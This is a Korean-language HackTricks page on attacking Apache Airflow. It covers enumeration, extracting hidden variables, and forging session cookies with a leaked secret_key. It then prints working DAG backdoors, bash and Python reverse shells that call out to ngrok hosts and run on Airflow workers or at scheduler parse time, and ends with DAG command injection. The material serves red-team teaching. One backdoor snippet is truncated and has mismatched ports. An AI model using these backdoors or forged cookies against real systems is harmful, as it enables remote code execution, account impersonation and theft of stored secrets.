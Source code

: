 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org)는 **데이터 파이프라인 또는 워크플로우를 조정하고 예약하는 플랫폼**으로 사용됩니다. 데이터 파이프라인의 맥락에서 "조정"이라는 용어는 다양한 출처에서 발생하는 복잡한 데이터 워크플로우를 정리하고, 조정하며, 관리하는 과정을 의미합니다. 이러한 조정된 데이터 파이프라인의 주요 목적은 처리되고 소비 가능한 데이터 세트를 제공하는 것입니다. 이러한 데이터 세트는 비즈니스 인텔리전스 도구, 데이터 과학 및 머신 러닝 모델 등 다양한 애플리케이션에서 광범위하게 사용되며, 이는 빅 데이터 애플리케이션의 기능에 필수적입니다.

기본적으로 Apache Airflow는 **무언가**(이벤트, 크론)가 발생할 때 **코드 실행을 예약할 수 있게 해줍니다**.

### Local Lab

#### Docker-Compose

**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**에서 **docker-compose 구성 파일을 사용하여** 완전한 apache airflow 도커 환경을 시작할 수 있습니다. (MacOS를 사용하는 경우 도커 VM에 최소 6GB의 RAM을 할당해야 합니다).

#### Minikube

**apache airflow**를 실행하는 쉬운 방법 중 하나는 **minikube로 실행하는 것입니다**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow는 **민감한 정보**를 구성에 저장할 수 있으며, 약한 구성이 있을 수 있습니다:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow를 공격하기 전에 **권한이 어떻게 작동하는지** 이해해야 합니다:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

**웹 콘솔에 접근할 수 있다면** 다음 정보 중 일부 또는 전부에 접근할 수 있습니다:

* **변수** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
* **연결** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
* `http://<airflow>/connection/list/`에서 접근
* [**구성**](./#airflow-configuration) (여기에 **`secret_key`** 및 비밀번호와 같은 민감한 정보가 저장될 수 있습니다)
* **사용자 및 역할** 목록
* **각 DAG의 코드** (흥미로운 정보가 포함될 수 있습니다)

#### Retrieve Variables Values

변수는 Airflow에 저장될 수 있어 **DAGs**가 **값에 접근**할 수 있습니다. 이는 다른 플랫폼의 비밀과 유사합니다. **충분한 권한**이 있다면 `http://<airflow>/variable/list/`의 GUI에서 접근할 수 있습니다.\
Airflow는 기본적으로 GUI에서 변수의 값을 표시하지만, [**이**](https://marclamberti.com/blog/variables-with-apache-airflow/)에 따르면 **값**이 **별표**로 표시되는 **변수 목록**을 설정할 수 있습니다.

![](<../../.gitbook/assets/image (164).png>)

그러나 이러한 **값**은 여전히 **CLI**를 통해 **가져올 수 있습니다** (DB 접근이 필요함), **임의의 DAG** 실행, **API**를 통해 변수 엔드포인트에 접근 (API가 활성화되어야 함), **심지어 GUI 자체에서도!**\
GUI에서 이러한 값에 접근하려면 **접근하고자 하는 변수**를 선택하고 **작업 -> 내보내기**를 클릭하면 됩니다.\
또 다른 방법은 **검색 필터링**을 사용하여 **숨겨진 값**에 대해 **브루트포스**를 수행하는 것입니다:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

**`expose_config`** 구성이 **True**로 설정되어 있다면, **User** 역할 및 **상위** 역할은 **웹에서 구성**을 **읽을 수 있습니다**. 이 구성에는 **`secret_key`**가 나타나며, 이는 유효한 사용자가 **자신의 서명된 쿠키를 생성하여 다른 사용자 계정을 가장할 수 있음을 의미합니다**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 백도어 (Airflow 작업자에서 RCE)

**DAGs가 저장된** 위치에 **쓰기 권한**이 있다면, **역방향 셸**을 보내는 **하나를 생성**할 수 있습니다.\
이 역방향 셸은 **airflow 작업자 컨테이너** 내에서 실행될 것입니다:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 백도어 (Airflow 스케줄러의 RCE)

코드의 **루트에서 실행되도록 설정**하면, 이 글을 작성하는 순간에, DAG 폴더에 넣은 후 몇 초 후에 **스케줄러에 의해 실행**됩니다.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 생성

만약 **DAG 클러스터 내의 머신을 침해**하는 데 성공한다면, `dags/` 폴더에 새로운 **DAG 스크립트**를 생성할 수 있으며, 이 스크립트는 **DAG 클러스터 내의 나머지 머신에 복제**됩니다.

#### DAG 코드 주입

GUI에서 DAG를 실행할 때 **인수를 전달**할 수 있습니다.\
따라서, DAG가 제대로 코딩되지 않았다면 **명령어 주입에 취약**할 수 있습니다.\
이것이 이 CVE에서 발생한 일입니다: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG에서 명령어 주입을 찾기 시작하기 위해 알아야 할 모든 것**은 **매개변수**가 **코드 `dag_run.conf.get("param_name")`**로 **접근**된다는 것입니다.

게다가, 같은 취약점이 **변수**에서도 발생할 수 있습니다(충분한 권한이 있다면 GUI에서 **변수의 값을 제어**할 수 있습니다). 변수는 **다음과 같이 접근됩니다**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
예를 들어 bash 명령어 안에서 사용된다면, 명령어 주입을 수행할 수 있습니다.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
